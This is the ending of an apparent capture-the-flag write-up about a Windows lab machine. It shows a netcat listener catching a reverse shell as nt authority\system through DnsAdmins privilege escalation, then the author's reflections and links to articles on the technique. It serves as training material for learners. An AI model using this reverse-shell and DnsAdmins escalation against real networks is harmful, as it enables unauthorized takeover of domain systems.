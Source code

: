```
        PID                : 3472
        FLAGS              :
```

After starting the DNS server, we receive a connection on our nc listener.

```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.169] 59327
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

# Thoughts

This box offered good practice for password spraying and basic Windows enumeration. The DnsAdmin escalation vector was new to me and was a great learning exercise.

**DnsAdmins Privilege Escalation**

* https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/
* https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2
* https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
